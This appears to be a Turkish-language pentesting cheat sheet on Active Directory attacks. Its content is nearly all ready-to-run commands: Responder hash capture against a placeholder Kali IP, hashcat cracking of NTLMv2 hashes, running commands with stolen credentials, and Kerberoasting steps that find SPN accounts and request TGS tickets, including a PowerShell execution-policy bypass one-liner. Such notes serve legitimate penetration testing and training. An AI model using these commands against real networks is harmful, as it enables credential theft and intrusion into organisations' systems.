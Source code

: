 #### Responder Kullanarak:
```bash
responder -I tun0 -F --lm -d -w -i KALI_IP
```

#### Hashcat ile NTLMv2 Hash Kırma:
```bash
hashcat -m 5600 hash ~/Downloads/rockyou.txt --force -r /usr/share/hashcat/rules/d3ad0ne.rule
```

### Diğer Kullanıcıların Adına Komut Çalıştırma

#### PowerShell Kullanarak:
```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('Domain\UserName', $SecPassword)
Get-aduser -Identity user1 -Credential $Cred
```
### Kerberoasting

#### TGS Biletini Diske Kaydetme ve Brute Force İşlemi

DC, hizmet hesabını ServicePrincipalName (SPN) ile tanımlar ancak hizmet hesaplarının şifreleri genellikle zor kırılır.

### SPN Ayarlanmış Kullanıcıları Bulma

#### PowerShell Modülü Kullanarak:
```powershell
Import-Module .\GetUserSPNs.ps1
```

#### Active Directory Modülü Kullanarak:
```powershell
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

#### PowerView Kullanarak:
```powershell
Get-NetUser -SPN
```

### TGS Biletini Alma

#### GetUserSPNs.py Kullanarak:
```bash
sudo GetUserSPNs.py -request -dc-ip 10.10.10.10 Steins.local/mark
```

#### Active Directory Modülü Kullanarak:
```powershell
powershell.exe -exec bypass -c "Add-Type -AssemblyName System.IdentityModel; New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'SPNNAME/hostname.steins.LOCAL:1433' "
```
